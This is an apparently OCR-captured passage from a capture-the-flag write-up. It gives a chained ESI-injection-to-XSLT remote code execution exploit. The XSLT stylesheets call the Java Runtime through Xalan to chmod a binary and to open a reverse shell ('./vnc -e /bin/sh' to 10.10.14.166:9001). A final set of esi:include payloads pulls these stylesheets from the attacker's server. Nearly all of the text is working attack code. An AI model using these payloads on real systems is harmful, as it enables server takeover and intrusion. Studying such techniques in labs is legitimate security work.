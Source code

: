 ```bash
</xsl:template>
</xsl:stylesheet>
```

chmod

```bash
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod 777 vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

shell

```bash
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./vnc -e /bin/sh 10.10.14.166 9001 ]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

You can use 3 blank xml file 

So our Final Payload will be

><esi:include src="http://10.10.14.166:8000/wget2.xml" stylesheet="http://10.10.14.166:8000/wget2.xsl"></esi:include>
><esi:include src="http://10.10.14.166:8000/chod.xml" stylesheet="http://10.10.14.166:8000/chod.xsl"></esi:include>
><esi:include src="http://10.10.14.166:8000/shell2.xml" stylesheet="http://10.10.14.166:8000/shell2.xsl"></esi:include>
